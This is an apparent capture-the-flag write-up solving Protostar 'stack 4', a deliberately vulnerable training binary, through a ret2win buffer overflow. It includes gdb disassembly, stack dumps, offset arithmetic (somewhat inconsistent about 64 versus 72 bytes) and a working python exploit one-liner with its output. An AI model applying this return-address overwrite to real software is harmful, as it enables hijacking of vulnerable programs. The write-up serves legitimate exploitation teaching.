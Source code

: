 ```yaml
---
title: "protostar - stack 4"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack four from Protostar in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets check the file type of our binary,

```c
$ file stack4
stack4: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

Lets try running it,

```c
$ ./stack4
monish
$ ./stack4
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

It crashes the binary if we pass random junk

So ```buffer overflow``` occurs here

Lets view the source code for proper understanding,

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

By seeing this code we can say this is a simple ```ret2win buffer overflow```

Lets analyse the binary using debuggers,

Disassembling ```main()```,

```c
(gdb) disas main
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave
0x0804841e <main+22>:	ret
End of assembler dump.
```

Disassembling ```win()```,

```c
(gdb) disas win
Dump of assembler code for function win:
0x080483f4 <win+0>:	push   ebp
0x080483f5 <win+1>:	mov    ebp,esp
0x080483f7 <win+3>:	sub    esp,0x18
0x080483fa <win+6>:	mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:	call   0x804832c <puts@plt>
0x08048406 <win+18>:	leave
0x08048407 <win+19>:	ret
End of assembler dump.
```

Here ```buffer``` space is allocated by,

```c
0x08048411 <main+9>:	lea    eax,[esp+0x10]
```

Lets calculate the buffer space,

```c
sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
```

```c
>>> print(0x50-0x10)
64
```

So the buffer space is ```64 bytes```

To pass the program we need to return to ```win()``` function

For a typical buffer overflow, we need to overwrite ```Buffer Space (buffer) + Extra Space(If there) + Base Pointer (BP) + Instruction Pointer (IP)```

Lets analyse it by setting breakpoint,

```c
(gdb) b *0x0804841d
Breakpoint 1 at 0x804841d: file stack4/stack4.c, line 16.
(gdb) r
Starting program: /opt/protostar/bin/stack4
AAAABBBBCCCCDDDDEEEEFFFF

Breakpoint 1, main (argc=1, argv=0xbffffd14) at stack4/stack4.c:16
16	stack4/stack4.c: No such file or directory.
	in stack4/stack4.c
(gdb) x/2wx $ebp
0xbffffc68:	0xbffffce8	0xb7eadc76
```

```0xbffffce8``` is the Base Pointer

```0xb7eadc76``` is the Instruction Pointer

Lets view our stack values,

```c
(gdb) x/30x $esp
0xbffffc10:	0xbffffc20	0xb7ec6165	0xbffffc28	0xb7eada75
0xbffffc20:	0x41414141	0x42424242	0x43434343	0x44444444
0xbffffc30:	0x45454545	0x46464646	0xbffffc00	0x08048449
0xbffffc40:	0xb7fd8304	0xb7fd7ff4	0x08048430	0xbffffc68
0xbffffc50:	0xb7ec6365	0xb7ff1040	0x0804843b	0xb7fd7ff4
0xbffffc60:	0x08048430	0x00000000	0xbffffce8	0xb7eadc76
0xbffffc70:	0x00000001	0xbffffd14	0xbffffd1c	0xb7fe1848
0xbffffc80:	0xbffffcd0	0xffffffff
```

So our input starts at ```0xbffffc20``` and BP is at ```0xbffffc69``` in our stack

Difference between starting point of our buffer and base pointer is,

```c
>>> print(0xbffffc69-0xbffffc20)
73
>>> print(0xbffffc68-0xbffffc20)
72
```

So we need ```72 bytes``` from ```buffer``` to reach ```Base Pointer```

Length of ```buffer``` to Base Pointer = 64 bytes

Length of Base Pointer = 4 bytes

Length of Instruction Pointer = 4 bytes

Lets try to overwrite it with junk values,

Our ```win()``` is located at ```0x080483f4```

We need to overwrite ```Instruction Pointer(IP)``` with ```0x080483f4``` for successful redirection to ```win()```

Lets try our exploit,

```c
$ python -c "print('A'*72+'B'*4+'\xf4\x83\x04\x08')" | ./stack4
code flow successfully changed
Segmentation fault
```

Done! we have completed "stack4"